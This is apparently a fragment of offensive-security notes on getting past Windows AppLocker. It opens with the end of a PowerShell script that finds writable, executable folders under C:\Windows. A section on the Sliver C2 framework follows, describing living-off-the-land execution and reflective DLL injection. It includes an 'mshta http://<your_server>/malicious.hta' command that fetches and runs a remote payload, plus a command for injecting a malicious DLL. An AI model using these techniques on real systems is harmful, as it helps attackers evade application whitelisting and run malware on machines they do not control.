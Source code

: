 ```powershell
    } catch {
        Write-Error "Error accessing ACL for ${path}: $_"
    }

    return $false
}

# Get all directories inside C:\Windows
$directories = Get-ChildItem -Path $windowsPath -Directory -Recurse -ErrorAction SilentlyContinue

foreach ($directory in $directories) {
    if (IsWritableExecutable -path $directory.FullName) {
        $writableExecutableDirectories += $directory.FullName
    }
}

# Output writable and executable directories
if ($writableExecutableDirectories.Count -gt 0) {
    Write-Host "Writable and executable directories inside ${windowsPath}:"
    $writableExecutableDirectories | ForEach-Object { Write-Host $_ }
} else {
    Write-Host "No writable and executable directories found inside $windowsPath."
}
```

## Bypass with Sliver

Sliver is a C2 framework similar to Covenant, and it also provides various techniques to bypass security controls like AppLocker. Here's how you might approach bypassing AppLocker using Sliver:

### Bypassing AppLocker with Sliver

#### 1. **Using Trusted Binaries (Living Off The Land)**
   - **How It Works**: Similar to Covenant, Sliver can use trusted binaries that are likely to be allowed by AppLocker. These binaries can be used to execute malicious payloads.
   - **Execution**: Utilize `mshta.exe`, `regsvr32.exe`, `rundll32.exe`, or other trusted binaries to execute payloads delivered by Sliver.
   - **Example**:
     ```bash
     mshta http://<your_server>/malicious.hta
     ```

#### 2. **Reflective DLL Injection**
   - **How It Works**: Sliver supports reflective DLL injection, where a DLL is injected into the memory of a process without touching the disk. This can bypass AppLocker because it avoids writing executable files to disk.
   - **Execution**: Inject a malicious DLL into a trusted process that is not restricted by AppLocker.
   - **Example**:
     ```bash
     use reflectivedll --dll /path/to/malicious.dll
     ```
